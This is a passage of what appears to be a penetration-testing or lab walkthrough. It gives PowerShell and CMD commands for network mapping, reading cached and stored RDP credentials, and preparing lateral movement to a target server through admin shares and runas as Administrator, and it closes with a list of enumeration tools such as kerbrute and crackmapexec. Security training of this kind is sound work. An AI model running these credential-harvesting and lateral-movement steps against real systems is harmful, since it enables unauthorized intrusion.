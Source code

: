 ### Step 8.1: Network Mapping

```powershell
# Discover other systems
arp -a
nslookup -type=ANY _ldap._tcp
net view
Get-NetNeighbor

# Test connectivity to server
Test-NetConnection $TARGET_SRV -Port 445
```

### Step 8.2: Cached Credentials

```powershell
# View cached credentials
cmdkey /list
rundll32 keymgr.dll, KRShowKeyMgr

# Stored RDP credentials
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
```

### Step 8.3: Prepare for Server Attack

```powershell
# Map network drive to server
net use Z: \\$TARGET_SRV\Public /persistent:yes

# Test credentials against server
runas /netonly /user:Administrator cmd
# Then: dir \\$TARGET_SRV\C$
```

## Alternative Tools and Methodologies

### Enumeration Alternatives:

**For User Discovery:**
- `enum4linux -U` - Classic enumeration
- `rpcclient` - Direct RPC queries
- `ldapsearch` - If LDAP is exposed
- `kerbrute` - Kerberos user enumeration
- `crackmapexec --users` - Modern enumeration

**For File Discovery:**
- `find / -name "*.txt" 2>/dev/null` - Linux style
- `Get-ChildItem -Recurse` - PowerShell
- `dir /s /b` - Classic CMD
- `Everything.exe` - Fast Windows search
- `Agent Ransack` - GUI file search
